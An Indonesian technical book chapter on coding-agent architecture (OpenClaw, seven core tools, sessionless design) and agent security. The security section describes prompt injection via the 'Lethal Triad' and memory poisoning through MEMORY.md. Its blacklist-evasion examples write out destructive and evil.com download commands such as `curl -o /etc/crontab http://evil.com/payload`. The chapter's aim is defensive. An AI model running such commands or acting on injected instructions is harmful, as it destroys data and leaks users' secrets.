# Agen Pengodean dan Pembuatan Kode (Coding Agent and Code Generation)

Bab-bab sebelumnya mendalami rekayasa konteks (Bab 2 dan 3) dan desain alat (Bab 4). Bab ini menyatukan blok-blok pembangun tersebut untuk menjawab satu pertanyaan inti: **Seperti apa arsitektur Agen serbaguna yang mampu menangani tugas-tugas arbitrer?**

Jawabannya adalah: **Agen serbaguna yang menargetkan tugas-tugas terbuka (open-ended tasks)** memiliki **Agen Pengodean (Coding Agent)** (sebuah Agen yang dapat secara otonom menulis, memodifikasi, dan mengeksekusi kode) sebagai intinya, ditambah dengan **sistem file** — ruang kerja tempat Agen menyimpan kode, data, memori, dan hasil sementara, mirip seperti seorang pemrogram yang mengelola proyek dengan folder-folder di komputer. Kesimpulan ini berasal dari praktik industri — dari Manus hingga OpenClaw, Agen serbaguna open-ended yang sukses semuanya mengikuti paradigma yang sama: membangun *runtime* Agen Pengodean dengan sekumpulan alat umum (eksekusi kode, baca/tulis file, pencarian), kemudian menambahkan modul-modul kemampuan seperti otomatisasi *browser* dan pencarian web. Di mana kesimpulan ini berlaku — dan di mana tidak — akan dibahas di akhir bagian "Dari Manus ke OpenClaw."

Mengapa pembuatan kode dapat mengemban beban ini? Karena ini bukan sekadar satu alat di dalam kotak alat, melainkan sebuah **kemampuan meta (meta-capability)** — kemampuan untuk menciptakan alat dan kemampuan baru secara dinamis saat *runtime*. Paruh kedua bab ini (bagian "Kode: Kemampuan Meta dari Agen Serbaguna") mengembangkan konsep ini secara penuh, bersama dengan enam arah penerapannya.

Kode melayani Agen pada dua level. Sebagai medium untuk **berpikir**, kode memaksakan ketelitian — "usia lebih dari 18 dan identitas terverifikasi" dapat memiliki banyak arti dalam bahasa alami, tetapi jika ditulis sebagai `age > 18 and is_verified`, maknanya hanya satu. Sebagai medium untuk **ekspresi**, kode yang berjalan adalah bukti dari konsistensi logisnya sendiri, dan hasil eksekusinya memberikan standar kebenaran yang objektif — sesuatu yang tidak dapat ditawarkan oleh bahasa alami.

Bab ini dimulai dengan kemampuan dasar dari Agen Pengodean dan arsitektur Agen serbaguna (OpenClaw), kemudian mendemonstrasikan penerapan pembuatan kode dalam berbagai skenario — mulai dari penalaran matematis dan pembuatan konten hingga kemampuan meta tingkat sistem.

## Agen Pengodean

### Pengodean sebagai Kemampuan Dasar Agen

**Pembuatan kode bukanlah domain eksklusif dari beberapa Agen khusus, melainkan kemampuan dasar yang harus dimiliki oleh setiap Agen serbaguna.** Dengan model SOTA (State-of-the-Art) saat ini, memberikan Agen kemampuan pengodean dasar tidak memerlukan arsitektur yang rumit.

Pertimbangkan tugas umum berikut: "Rapikan semua sisa komentar TODO di repositori, klasifikasikan berdasarkan prioritas, dan buat *issue*." Untuk menyelesaikannya diperlukan penelusuran struktur direktori (ls/glob), membaca kode (read), memodifikasi file (edit/write), menjalankan perintah (bash), dan mencari pola (grep/search). Kelima kategori operasi ini mencakup hampir setiap aksi inti dari Agen Pengodean, dan dari sinilah ketujuh alat di bawah ini berasal. Secara ketat, lima kategori ini terpetakan secara alami ke dalam enam alat; yang ketujuh, *Code Interpreter*, mencakup operasi "eksekusi kode / komputasi" dan dalam beberapa implementasi sering kali disatukan dengan Bash — ketujuh alat ini adalah set referensi yang dinormalisasi, bukan pemetaan satu-ke-satu yang kaku ke lima kategori tersebut.

Sebuah Agen Pengodean dasar hanya perlu dilengkapi dengan tujuh alat inti berikut:

1. **Code Interpreter**: Menyediakan *sandbox* yang terisolasi (*runtime* aman yang terpisah dari sistem *host*) di mana kode Python dapat berjalan dengan aman tanpa risiko kesalahan eksekusi yang memengaruhi *host*.
2. **Bash Shell**: Mengeksekusi perintah di terminal, seperti menjalankan *test case* atau memproses file berformat khusus.
3. **Alat Baca File (Read File Tool)**: Membaca kode, konfigurasi, dokumentasi, log, dll.
4. **Alat Tulis File (Write File Tool)**: Membuat file baru atau sepenuhnya menimpa file yang sudah ada.
5. **Alat Edit File (Edit File Tool)**: Melakukan modifikasi parsial pada file yang ada, sebuah operasi inti untuk pemeliharaan dan iterasi kode.
6. **Alat Pencarian Nama File (Search File Name Tool / Glob)**: Menemukan file target dengan cepat di sistem file melalui pencocokan pola, misalnya menggunakan `**/*.py` untuk menemukan semua file Python dalam proyek.
7. **Alat Pencarian Konten File (Search File Content Tool / Grep)**: Mencari pola teks tertentu dalam konten file, misalnya menemukan semua baris kode yang memanggil fungsi tertentu.

Ketujuh alat ini membentuk kotak alat yang lengkap namun minimal, yang dapat diintegrasikan oleh hampir semua sistem Agen dengan biaya rendah. Dalam implementasinya, semuanya dapat diekspos sebagai layanan alat standar melalui protokol MCP yang diperkenalkan pada Bab 4. Perlu dicatat bahwa set alat ini adalah konfigurasi dasar khusus untuk Agen Pengodean, berbeda dari lima kategori alat umum (persepsi/eksekusi/kolaborasi/pemicu *event*/komunikasi pengguna) yang diklasifikasikan berdasarkan arah pemanggilan dan peran fungsionalnya pada Bab 4 — tujuh alat inti ini terutama mencakup kategori persepsi dan eksekusi. Bagaimana dengan kolaborasi, pemicu *event*, dan komunikasi pengguna? Dalam Agen Pengodean, ini biasanya merupakan tugas *framework*, bukan lapisan alat — pendelegasian sub-agen, misalnya, ditangani oleh logika orkestrasi *framework* alih-alih oleh alat kolaborasi khusus.

Untuk melihat bagaimana ketujuh alat tersebut bekerja sama, ambil tugas yang paling sederhana. Misalkan pengguna berkata, "Bantu saya mengumpulkan daftar semua komentar TODO di proyek ini":

```
Agent (berpikir): Perlu mencari semua baris kode yang mengandung TODO.
Agent → Grep("TODO", glob="**/*.py")          # Mencari konten file
Tool mengembalikan:
  src/api.py:42: # TODO: add rate limiting
  src/db.py:15:  # TODO: migrate to PostgreSQL
  tests/test_api.py:8: # TODO: add edge case tests

Agent (berpikir): Ditemukan 3 TODO, kumpulkan menjadi satu daftar dan tulis ke file.
Agent → Write("TODO_LIST.md", content="...")   # Menulis file
Tool mengembalikan: File dibuat

Agent: Selesai. Ditemukan 3 item TODO, daftarnya disimpan di TODO_LIST.md.
```

Seluruh proses hanya menggunakan dua alat: Grep (mencari konten) dan Write (menulis file). Jika tugasnya lebih kompleks — seperti "hitung jumlah TODO per modul dan buat diagram batang" — Agen juga akan menggunakan *Code Interpreter* untuk mengeksekusi kode Python untuk statistik dan pembuatan plot. Secara individu, ketujuh alat ini sederhana; jika digabungkan, mereka mencakup rentang tugas yang luar biasa luas.

Mengapa setiap Agen serbaguna harus memiliki kemampuan pengodean? Karena pembuatan kode bukan hanya tentang menulis program — ini adalah cara serbaguna untuk memecahkan masalah. Menghadapi masalah matematika, Agen dapat menulis kode dan menyerahkannya kepada *solver* untuk mendapatkan jawaban pasti; menghadapi aturan bisnis yang harus ditegaskan, kode jauh lebih presisi daripada deskripsi bahasa alami mana pun; kehilangan suatu alat, ia dapat menulisnya saat itu juga; ketika format data berubah, ia dapat menghasilkan logika *parsing* baru. Bagian-bagian selanjutnya membahas masing-masing skenario ini secara berurutan. Sebuah Agen dengan kemampuan pengodean dasar — bahkan yang hanya dilengkapi dengan tujuh alat sederhana di atas — dapat memperluas kemampuannya setiap kali ada kebutuhan baru.

### Studi Kasus: Dari Manus ke OpenClaw — Inti Pengodean dari Agen Serbaguna

Produk Agen serbaguna seperti Manus menggabungkan tiga kemampuan utama — Pencarian Mendalam (*Deep Research*), Penggunaan Komputer (*Computer Use*), dan Pengodean (*Coding*) — dalam satu sistem tunggal, memperkuat sebuah wawasan yang berulang kali terbukti dalam praktik: **Agen Pengodean ditambah sistem file adalah fondasi teknis paling mendasar untuk Agen serbaguna yang bersifat open-ended.** Proyek *open-source* OpenClaw mengambil pendekatan serupa, mendemonstrasikan paradigma arsitektur yang sama secara terbuka.

Mengapa Agen Pengodean yang menjadi inti, bukan dua lainnya? Karena hampir semua pembuatan konten yang efisien pada akhirnya bermuara pada kode. Sebuah PPT pada dasarnya adalah kode dalam format OOXML (Office Open XML, standar terbuka Microsoft untuk dokumen kantor); dokumen Word dan laporan PDF dapat dihasilkan melalui kode; analisis data dan visualisasi dilakukan oleh skrip Python; bahkan alur kerja GUI yang berhasil dapat ditangkap sebagai kode RPA (Robotic Process Automation) yang dapat digunakan ulang (Penggunaan Komputer itu sendiri dibahas di Bab 9, dan mekanisme untuk menangkap urutan operasi dirinci di Bab 8). Pencarian dan sintesis informasi pada Pencarian Mendalam dapat dicapai melalui permintaan dan *parsing* web berbasis kode. Meskipun Penggunaan Komputer lebih serbaguna, kode langsung atau pemanggilan API umumnya lebih murah, lebih cepat, dan lebih dapat diandalkan untuk operasi yang setara. Pembuatan kode adalah fondasi kemampuan yang paling efisien, berbiaya rendah, dan paling dapat digunakan ulang.



Mari kita pahami arsitektur ini melalui alur eksekusi konkret. Misalkan pengguna meminta, "Bantu saya menganalisis data penjualan kuartal lalu dan buat laporan ringkasan":

1. **Membaca Memori**: Agen membaca `MEMORY.md` dan menemukan bahwa pengguna lebih suka format laporan PDF dan sumber datanya adalah Google Sheets.
2. **Memanggil Alat**: Mendapatkan petunjuk penggunaan API Google Sheets melalui modul pencarian web, lalu mengunduh data melalui eksekusi kode.
3. **Menulis Kode**: Menghasilkan skrip analisis data dengan Python (agregasi pandas, visualisasi matplotlib).
4. **Menghasilkan Artefak**: Menulis hasil analisis ke `report.pdf`, dan diagram ke direktori `charts/`.
5. **Memperbarui Memori**: Mencatat di `MEMORY.md` bahwa "Data penjualan pengguna ada di Google Sheets, ID: xxx," sehingga ia tidak perlu bertanya lagi di lain waktu.

Sepanjang proses, sistem file adalah pusat aliran informasi — memori dibaca dari file, artefak ditulis ke file, dan pengalaman juga disimpan sebagai file.

**Sistem File sebagai Hub Pusat Agen.** Dalam desain OpenClaw, sistem file lebih dari sekadar penyimpanan data — ini adalah hub pusat untuk memori, pengetahuan, dan kemampuan Agen. Memori jangka panjang Agen disimpan dalam `MEMORY.md` (fakta tingkat tinggi dan preferensi pengguna) dan log Markdown yang diarsipkan berdasarkan tanggal. Memilih Markdown daripada database vektor mungkin tampak berlawanan dengan intuisi, tetapi ini sangat efektif: pengguna dapat secara langsung membuka file untuk membaca dan memodifikasi memori Agen (jika Agen salah mengingat sesuatu, cukup hapus baris tersebut), Markdown secara alami menjaga urutan kronologis untuk menghindari kebingungan temporal dalam pencarian semantik, dan ini mendukung kontrol versi serta *rollback* melalui Git.

Yang lebih kritis, karena Agen dapat menulis file, ia dapat **berkembang sendiri (self-evolve)** melaluinya. Saat sebuah Agen melakukan tugas untuk pertama kalinya dan menemukan informasi penting yang tidak diketahuinya sebelumnya (misalnya, saat menelepon bank tertentu, ia belajar bahwa bank tersebut memerlukan alamat cabang akun untuk verifikasi identitas), ia menuliskan pengalaman ini ke dalam basis pengetahuan dan memuatnya secara otomatis pada saat berikutnya ia melakukan tugas yang sama. Mekanisme "semakin pintar seiring penggunaan" ini, pada dasarnya, adalah praktik konkret dari paradigma pembelajaran eksternalisasi yang akan dibahas secara mendalam pada Bab 8.

**Batas Penerapan: Agen Mana yang Memiliki Pengodean sebagai Arsitektur Intinya.** Kesimpulan bahwa "Agen Pengodean adalah inti dari Agen serbaguna" terutama berlaku pada **Agen serbaguna yang menargetkan tugas terbuka (open-ended)** — skenario seperti pencarian mendalam, pembuatan konten, dan pemrosesan data, di mana batas-batas tugas tidak pasti dan bentuk artefak beragam. Dalam skenario ini, mustahil untuk menyebutkan semua alat yang dibutuhkan sebelumnya; pembuatan kode, sebagai kemampuan meta, memberikan jalur paling ekonomis untuk memperluas batas-batas kemampuan secara dinamis, menjadikannya inti arsitektur. Sebaliknya, Agen layanan pelanggan domain-vertikal dan asisten suara beroperasi dalam ruang tugas yang relatif tertutup, dengan arsitektur inti yang dibangun di sekitar proses bisnis tetap, alat domain, dan strategi dialog; di sana, kode adalah alat di dalam kotak alat, bukan pusat arsitektur (dalam contoh τ-bench di bab ini—sebuah *benchmark* yang menyimulasikan skenario layanan pelanggan—kode tepat memainkan peran sebagai alat verifikasi kebijakan). Namun, bahkan pada contoh terakhir, pengodean adalah kemampuan dasar yang sangat diperlukan: kalkulasi presisi, pemrosesan data, dan verifikasi aturan semuanya bergantung padanya — ini sejalan dengan pernyataan pada bagian sebelumnya, "Pengodean sebagai Kemampuan Dasar Agen": apakah pengodean adalah arsitektur inti atau bukan, bergantung pada skenarionya, tetapi memiliki kemampuan pengodean adalah *baseline* umum untuk semua Agen.

### Desain Tanpa Sesi (Sessionless Design)

Selanjutnya, kita akan membahas dua desain — mode interaksi "selalu tersedia" dan arsitektur keamanan — yang sekilas mungkin tampak tidak berhubungan dengan topik Agen Pengodean. Namun, hal ini secara langsung menentukan bagaimana Agen mengelola lingkungan eksekusi kode dan status sistem file, yang merupakan perhatian inti dari Agen Pengodean. (Pembaca yang ingin memahami terlebih dahulu bagaimana Agen Pengodean bekerja langkah demi langkah dapat melompat ke bagian "Alur Kerja Keseluruhan dari Agen Pengodean" dan kembali ke sini untuk desain interaksi dan keamanan.)

OpenClaw mengadopsi desain **Tanpa Sesi (Sessionless)**: pengguna tidak perlu menginstal atau masuk ke sebuah aplikasi, atau membukanya sebelum setiap interaksi; Agen selalu *online*, dan pengguna dapat mengirim pesan kapan saja melalui platform perpesanan yang sudah mereka gunakan untuk mendapatkan respons — paradigma interaksi ini dan Gateway perutean pesan serta arsitektur berbasis kejadian (*event-driven*) yang mendasarinya telah dibahas secara detail di bagian alat komunikasi pengguna pada Bab 4 dan tidak akan diulang di sini. Yang patut ditekankan adalah prasyarat agar paradigma ini bisa berjalan: model besar telah cukup matang untuk berfungsi sebagai jenis baru dari "fondasi cerdas" — mirip dengan bagaimana sistem operasi tradisional mengabstraksi perangkat keras dan menyediakan antarmuka terpadu untuk aplikasi lapisan atas, model besar mengabstraksi kompleksitas pemahaman bahasa, penalaran, dan perencanaan, dengan menyediakan abstraksi cerdas yang terpadu untuk Agen lapisan atas. Tepat karena fondasi inilah paradigma "selalu online + respons instan" dapat direkayasa dengan biaya rendah.

Bagi Agen Pengodean, tantangan rekayasa utama dari operasi tanpa sesi adalah **mempertahankan lingkungan eksekusi kode dan status sistem file di antara pesan**. Dua pesan pengguna mungkin terpisah beberapa menit atau beberapa hari, dan pekerjaan Agen bergantung pada sejumlah besar status implisit: paket yang terinstal di *sandbox*, direktori kerja sesi terminal dan variabel lingkungan, server pengembangan di latar belakang, dan file yang baru ditulis sebagian. Pendekatan OpenClaw adalah mengelola status dalam dua lapisan. **Status sistem file pada dasarnya bersifat persisten** — direktori ruang kerja dipasang (di-*mount*) pada penyimpanan persisten di luar *sandbox*, sehingga kode, data, dan artefak perantara tetap bertahan melintasi berbagai pesan dan proses *restart sandbox*; ini adalah makna lain dari "sistem file sebagai hub pusat Agen." **Status proses dijaga agar tetap hidup atau dibangun kembali sesuai permintaan** — *sandbox* dan sesi terminalnya tetap berjalan selama periode aktif untuk menghindari *cold-starting*, masuk kembali ke direktori kerja, dan mengaktifkan kembali lingkungan virtual (*virtual environment*) untuk setiap pesan; mereka dihancurkan setelah jeda *timeout* (*idle*) untuk merebut kembali sumber daya, tetapi sebelum dihancurkan, status lingkungan yang dapat diserialisasi (direktori kerja, variabel lingkungan, daftar tugas latar belakang) direkam dalam file ruang kerja, dan Agen membangun kembali dari rekaman ini saat terbangun berikutnya. Sesi terminal persisten yang dibahas di bagian "Persistensi Status di Lingkungan Eksekusi Perintah" di bab ini adalah padanan dari mekanisme tersebut dalam satu tugas tunggal; pendekatan Tanpa Sesi memperluas masalah yang sama ke skala waktu yang membentang lintas pesan dan hitungan hari.

Pendekatan Tanpa Sesi bukanlah tanpa pemeliharaan — setiap pesan pengguna mengharuskan **pemuatan ulang (reloading) trayektori dan status kerja secara lengkap**, yang memberikan tuntutan tinggi pada serialisasi status yang efisien dan strategi kompresi trayektori yang efektif; prinsip-prinsip desain kompresi trayektori telah dibahas di bagian "Strategi Kompresi Konteks" pada Bab 2, sedangkan bab ini berfokus pada tarik ulur (*trade-off*) rekayasa yang diberlakukan oleh arsitektur Tanpa Sesi.

### Keamanan untuk Agen Pengodean

Bagian ini menyusun pertahanan Agen Pengodean ke dalam sebuah kerangka kerja yang koheren: pertama-tama kami menguraikan **model ancaman**—risiko mana yang paling mematikan; kemudian **isolasi sebagai jaring pengaman**—jalan keluar jaringan (*network egress*), sistem file, dan batas sumber daya dalam *sandbox*; selanjutnya **pertahanan pada waktu eksekusi**—pemisahan (parsing) semantik dari perintah, dan eksekusi spekulatif yang membuat pemeriksaan keamanan "tidak terlihat"; dan terakhir **kepercayaan dan kesetiaan**—siapa yang dilayani Agen di bawah delegasi multipihak, dan bagaimana memindahkan batas kepercayaan ke bawah menuju lapisan data ketika kode yang ditulis AI itu sendiri tidak dapat dipercaya. Diskusi tentang model ancaman, kesetiaan, dan batas kepercayaan berlaku untuk semua Agen; proses *sandboxing* dan *parsing* perintah khusus untuk Agen Pengodean.

Paradigma "Agen berdaulat" ini juga memunculkan tantangan keamanan yang parah. Sebuah Agen Pengodean memiliki izin untuk membaca dan menulis file, mengeksekusi perintah, dan mengakses jaringan, yang berarti bahwa begitu disuntikkan instruksi berbahaya, hal itu dapat menyebabkan kerusakan yang tidak dapat diubah (*irreversible*). Pengembang dan peneliti independen Simon Willison merangkum risiko ini dengan konsepnya yang terkenal "Triad Mematikan" (*Lethal Triad*)—ketika ketiga elemen ini ada, mereka membentuk perulangan serangan yang lengkap, menempatkan sistem pada risiko tinggi:

1.  **Akses ke Data Pribadi** — Agen dapat membaca file pengguna dan pengelola kata sandi.
2.  **Paparan terhadap Konten Tidak Tepercaya** — Email dan halaman web yang diproses mungkin mengandung muatan berbahaya (*malicious payloads*).
3.  **Kemampuan untuk Berkomunikasi Secara Eksternal** — Agen dapat mengirim email dan mengeksekusi perintah.

Hal ini menutup perulangan serangan: instruksi berbahaya yang tersembunyi di dalam konten tidak tepercaya masuk ke Agen, mendorongnya untuk membaca data pribadi, lalu membocorkannya melalui saluran eksternal. Ingatlah bahwa keberadaan ketiga elemen ini sudah cukup berbahaya, tanpa adanya kondisi tambahan. Membangun berdasarkan ini, penulis menambahkan dimensi keempat—**Memori Persisten**. Ini bukanlah kondisi paralel keempat yang diperlukan, melainkan penguat serangan: penyerang dapat menuliskan bias atau instruksi berbahaya yang tampak tidak berbahaya ke dalam memori jangka panjang Agen, di mana mereka tidak aktif (*dormant*) di seluruh sesi dan memicu di saat yang tepat — mengubah serangan satu kali menjadi ancaman yang menunggu dalam persembunyian dan berlipat ganda seiring berjalannya waktu.

Keempat titik ini dapat disimpulkan sebagai empat jenis batas: batas data, batas kepercayaan input, batas dampak output, dan batas lintas-sesi. Agen lokal dengan izin penuh seperti OpenClaw melintasi keempat dimensi risiko tersebut, sehingga perlindungan keamanan menjadi tantangan inti yang harus dihadapi oleh Agen semacam itu.

Hal ini juga menjelaskan mengapa Agen komersial *closed-source* (seperti Claude Cowork (Agen serbaguna dari Anthropic untuk pekerjaan pengetahuan, menggunakan kembali arsitektur agen dari Claude Code, mampu membaca dan menulis file lokal serta menyelesaikan tugas multi-langkah di berbagai aplikasi kantor)) telah memilih strategi perizinan yang konservatif—bukan karena teknologinya gagal, melainkan karena risiko keamanannya terlalu tinggi. Terhadap *prompt injection*, penyaringan input saja hampir tidak banyak membantu. Tujuannya bukanlah untuk mengenali setiap serangan, melainkan untuk memastikan bahwa Agen yang telah disuntik tidak pernah mendapat kesempatan untuk melancarkan tindakan berbahaya. Sistem pertahanan ini telah dibangun lapis demi lapis di dua bab sebelumnya: **Pertahanan Lapisan Konteks** — menandai sumber konten eksternal, isolasi peran terstruktur, sanitasi input — lihat bagian *prompt injection* di Bab 2; **Pertahanan Lapisan Eksekusi** — tinjauan independen oleh *Sidecar*, Manusia dalam perulangan (*Human in the loop*), hak istimewa paling rendah (*least privilege*), dan pemisahan hak istimewa — lihat Bab 4. Karena suatu Agen tidak dapat secara andal menentukan apakah konteksnya sendiri telah dikompromikan, operasi kritis harus ditinjau oleh mekanisme di luar konteks tersebut. Prinsip ini berlaku melalui kedua bab tersebut. Bagian ini hanya menambahkan tiga perlindungan spesifik yang unik untuk Agen Pengodean:

- **Parsing Semantik Perintah** — Ledakan kombinasi dari perintah Shell membuat daftar hitam kata kunci (*keyword blacklists*) tidak berguna; efek nyata dari perintah harus dipahami di tingkat semantik (diperluas nanti di bagian ini);
- **Isolasi Sandbox dan Kontrol Egress Jaringan** — Eksekusi kode merupakan permukaan serangan yang unik untuk Agen Pengodean; pilihan rekayasa untuk tingkat isolasi dan strategi jalur keluar dibahas nanti di bagian ini;
- **Pertahanan Lintas-Sesi untuk Memori Persisten** — Bab ini memperluas analisis Triad Mematikan pada memori persisten: konten yang ditulis ke memori jangka panjang harus menjalani tinjauan kepercayaan yang sama seperti input eksternal sehingga instruksi berbahaya tidak dapat tertidur lelap di `MEMORY.md` dan berpengaruh di kemudian hari.

Ketiga perlindungan ini secara berurutan masuk ke dalam lapisan verifikasi, eksekusi, dan data, melengkapi sistem pertahanan dari dua bab sebelumnya. Strategi ini tidak dapat sepenuhnya menghilangkan risiko, tetapi dapat mengurangi permukaan serangan dari Agen.

**Isolasi sebagai Jaring Pengaman: Pilihan Rekayasa untuk Sandbox Eksekusi Kode.** *Sandbox* bukanlah sebuah sakelar; melainkan serangkaian keputusan rekayasa. Bab 4 telah menjelaskan mengapa isolasi diperlukan, menguraikan spektrum tiga tingkat dari mekanisme isolasi (isolasi tingkat-proses, kontainer, dan microVM), dan menyediakan aturan pemilihan berikut: isolasi tingkat-proses untuk mesin lokal personal, kontainer untuk lingkungan *cloud tenant* tunggal, dan microVM atau gVisor untuk lingkungan multi-*tenant* atau kode yang tidak tepercaya. Daripada mengulangi spektrum itu, bagian ini membahas empat masalah tambahan yang muncul saat mengimplementasikan Agen Pengodean: bagaimana cara mengelola jalur keluar jaringan (*network egress*), seberapa besar sistem file yang akan di-*mount*, bagaimana cara membatasi sumber daya, dan bagaimana menyelaraskan sesi persisten dengan isolasi.

**Kontrol Egress Jaringan.** Ini merupakan hal yang paling mudah diabaikan dan paling kritis: secara default tidak ada jaringan, dengan akses yang diberikan berdasarkan permintaan (*on demand*) melalui proksi daftar putih ke serangkaian tujuan terbatas (sumber paket, situs dokumentasi, API yang secara eksplisit diwajibkan oleh tugas). Jika melihat kembali item ke-3 dari Triad Mematikan—"Kemampuan untuk Berkomunikasi Secara Eksternal"—kontrol *egress* jaringan merupakan pertahanan lapisan eksekusinya: bahkan jika injeksi *prompt* berhasil dan kode berbahaya membaca data sensitif di dalam *sandbox*, tanpa jalur *egress*, data tersebut tidak dapat ditransmisikan. Dibandingkan dengan mencoba mengidentifikasi setiap injeksi, memotong saluran eksfiltrasi data adalah garis pertahanan yang jauh lebih deterministik.

**Ruang Lingkup Isolasi Sistem File.** *Mount* direktori kode sumber sebagai *read-only* (Agen memodifikasi kode melalui alat bantu pengeditan, dan *patch* yang dihasilkan ditinjau sebelum ditulis ke disk, atau salinannya di-*mount* ke dalam ruang kerja yang dapat ditulisi); direktori ruang kerja yang dapat ditulisi (*writable*) secara terpisah menyimpan artefak yang dihasilkan dan file perantara; file-file kredensial (`~/.ssh`, *keys*, *tokens*) sama sekali tidak di-*mount* ke dalam *sandbox*—data yang tidak terlihat tidak akan dapat bocor, yang bersesuaian dengan item ke-1 dari Triad Mematikan.

**Batas Sumber Daya dan Timeout.** Tetapkan kuota untuk CPU, memori, dan disk, ditambah batas waktu *wall-clock*, untuk bertahan dari perulangan tak terbatas (*infinite loops*), *fork bombs* (proses yang dengan cepat mereplikasi dirinya sendiri hingga sistem mengalami kehancuran), dan penulisan disk tak terbatas. Sebuah rincian praktis: pelanggaran *timeout* dan batas harus mengembalikan *error* terstruktur ke Agen ("Eksekusi dihentikan setelah 120 detik, output terakhir adalah...") alih-alih secara diam-diam mematikan proses, yang mana akan memberikan kesempatan bagi Agen untuk merevisi strateginya pada giliran berikutnya.

**Menyelaraskan Sesi Persisten dan Isolasi.** Bagian selanjutnya "Persistensi Status di Lingkungan Eksekusi Perintah" menganjurkan untuk memelihara sesi terminal berumur panjang, sementara prinsip isolasi menganjurkan untuk lingkungan yang sekali pakai—terdapat ketegangan di antara keduanya. Pendekatan penyelesaiannya adalah **menjaga sesi tetap hidup hanya di dalam sandbox**: sesi terminal tidak boleh lebih lama umurnya daripada *sandbox*, dan status sesi tidak boleh lolos ke mesin *host*. Untuk skenario yang memerlukan pemulihan di selang waktu yang panjang (seperti arsitektur Tanpa Sesi yang disebutkan sebelumnya), andalkan cuplikan (*snapshots*) *sandbox* atau "persistensi file ruang kerja + rekonstruksi lingkungan via skrip" untuk memulihkan status, alih-alih memperpanjang masa hidup *sandbox* tanpa batas. Dengan kata lain, yang dipertahankan adalah **deskripsi status yang dapat diaudit** (file, skrip, manifes), bukan proses berjalan yang buram.

**Keamanan: Parsing Semantik lebih dari sekedar Keyword Blacklists**. Bab 1 berargumen bahwa lapisan verifikasi seharusnya mengandalkan pemahaman semantik alih-alih pencocokan pola. Validasi keamanan perintah Shell merupakan penerapan paling menantang dari prinsip ini. Daftar hitam (*blacklists*) kata kunci yang sederhana tidak dapat mengatasi ledakan kombinatorial Shell—perintah dapat melewati aturan statis apa pun melalui *pipes*, *subshells*, ekspansi variabel, dll. (misalnya, jika `rm` diblokir, penyerang dapat menggunakan `$(echo rm) -rf /` untuk mem- *bypass*-nya). *Harness* tingkat produksi menggunakan *parsing* semantik: mengidentifikasi jenis argumen dari masing-masing perintah dan aturan *parsing*, termasuk *flags* mana yang mengonsumsi argumen berikutnya, serta mengenali pola serangan seperti *flag* yang tampaknya tidak berbahaya namun menyembunyikan *payload* berbahaya di argumen berikutnya. Sebagai contoh, `find / -name '*.log' -exec rm {} \;` menyematkan operasi hapus `rm` melalui argumen perintah `find` yang sah; contoh lainnya adalah `curl -o /etc/crontab http://evil.com/payload`, yang tampak seperti mengunduh file tetapi sebenarnya menimpa tugas terjadwal sistem. *Parsing* semantik dapat mengidentifikasi operasi berbahaya yang bersarang (*nested*) ini, sementara daftar hitam perintah yang sederhana tidak dapat menangkapnya. Mekanisme keamanan ini yang didasarkan pada pemahaman daripada sekadar pencocokan adalah implementasi tingkat tinggi dari fungsi "kendala".

**Eksekusi Spekulatif: Membuat Pemeriksaan Keamanan "Tak Terlihat"**. Ini persis sama dengan efek mekanisme batas (gating) Sidecar dari Bab 4 di tingkat pengalaman pengguna—Bab 4 menjelaskan mengapa operasi kritis harus ditinjau oleh Sidecar yang terpisah dari konteks utama; bagian ini berfokus pada pembuatan latensi tinjauan tersebut agar secara efektif tidak terlihat oleh pengguna. Pendekatannya adalah memisahkan kemajuan yang dapat dilihat oleh pengguna dari otorisasi eksekusi: ketika Agen akan mengeksekusi pemanggilan *tool*, sistem menampilkan petunjuk kemajuan di antarmuka (misalnya, "Membaca file `src/main.py`...") sementara pemeriksaan keamanan berjalan di latar belakang. Penjelasan diperlukan di sini mengenai analogi yang sering digunakan: ini berbeda dengan eksekusi spekulatif CPU—jika CPU salah menebak, ia harus membuang hasil perhitungan dan mengembalikan (*rollback*) status; di sini, tindakan awal tersebut hanyalah **petunjuk UI tanpa efek samping**, yang tidak mengubah status nyata apa pun. Jika pemeriksaannya gagal, maka tidak diperlukan pengembalian (*rollback*); petunjuk tersebut hanya diganti dengan "menunggu konfirmasi." Dalam kebanyakan kasus, pemeriksaan keamanan selesai sebelum pengguna menyadarinya, sehingga pengguna tidak merasakan adanya latensi tambahan; hanya ketika penentuan cepat tidak dimungkinkan, barulah sistem benar-benar menjeda dan menunggu konfirmasi. Ini adalah puncak desain *Harness*: keamanan tanpa mengorbankan pengalaman pengguna.

**Siapa yang Dilayani oleh Agen: Loyalitas di Bawah Delegasi Multi-Pihak.**

